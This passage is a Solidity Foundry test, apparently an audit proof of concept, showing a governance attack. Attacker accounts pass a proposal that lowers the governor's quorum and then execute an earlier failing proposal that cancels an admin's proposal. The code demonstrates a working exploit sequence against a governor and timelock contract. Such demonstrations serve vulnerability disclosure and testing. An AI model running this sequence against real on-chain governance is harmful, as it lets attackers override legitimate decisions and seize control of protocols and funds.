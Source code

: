 ```Solidity
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The last proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execution of the last proposal
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();
        console2.log("Current Quorum:  ", currentQuorum);

        // execution of the attacker's proposal which cancels the admin's proposal
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        uint proposalStatus = uint(governor.state(pid));
        console2.log("Proposal Status is: ", proposalStatus); // The initial proposal is cancelled
    }
```